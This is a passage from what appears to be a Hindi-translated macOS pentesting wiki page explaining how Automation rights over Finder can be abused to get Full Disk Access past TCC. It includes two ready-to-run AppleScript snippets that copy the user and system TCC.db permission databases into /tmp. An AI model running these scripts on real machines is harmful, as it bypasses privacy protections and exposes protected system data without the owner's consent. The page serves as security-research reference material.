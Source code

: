<details><summary>TCC में डालने का उदाहरण</summary></details>

### TCC Payloads

यदि आप किसी ऐप के अंदर कुछ TCC अनुमतियों के साथ पहुँचने में सफल हो गए हैं, तो उन्हें दुरुपयोग करने के लिए TCC पेलोड्स के साथ निम्नलिखित पृष्ठ देखें:

{% content-ref url="macos-tcc-payloads.md" %}
[macos-tcc-payloads.md](macos-tcc-payloads.md)
{% endcontent-ref %}

### Apple Events

Apple Events के बारे में जानें:

{% content-ref url="macos-apple-events.md" %}
[macos-apple-events.md](macos-apple-events.md)
{% endcontent-ref %}

### Automation (Finder) to FDA\*

Automation अनुमति का TCC नाम है: **`kTCCServiceAppleEvents`**\
यह विशेष TCC अनुमति यह भी इंगित करती है कि **कौन सा एप्लिकेशन प्रबंधित किया जा सकता है** TCC डेटाबेस के अंदर (इसलिए अनुमतियाँ केवल सब कुछ प्रबंधित करने की अनुमति नहीं देती हैं)।

**Finder** एक एप्लिकेशन है जो **हमेशा FDA** रखता है (भले ही यह UI में न दिखाई दे), इसलिए यदि आपके पास इसके ऊपर **Automation** विशेषाधिकार हैं, तो आप इसके विशेषाधिकारों का दुरुपयोग करके **कुछ क्रियाएँ करवा सकते हैं**।\
इस मामले में आपके ऐप को **`com.apple.Finder`** पर **`kTCCServiceAppleEvents`** अनुमति की आवश्यकता होगी।

{% tabs %}
{% tab title="Steal users TCC.db" %}
```applescript
# This AppleScript will copy the system TCC database into /tmp
osascript<<EOD
tell application "Finder"
set homeFolder to path to home folder as string
set sourceFile to (homeFolder & "Library:Application Support:com.apple.TCC:TCC.db") as alias
set targetFolder to POSIX file "/tmp" as alias
duplicate file sourceFile to targetFolder with replacing
end tell
EOD
```
{% endtab %}

{% tab title="सिस्टम TCC.db चुराना" %}
```applescript
osascript<<EOD
tell application "Finder"
set sourceFile to POSIX file "/Library/Application Support/com.apple.TCC/TCC.db" as alias
set targetFolder to POSIX file "/tmp" as alias
duplicate file sourceFile to targetFolder with replacing
end tell
EOD
```
{% endtab %}
{% endtabs %}
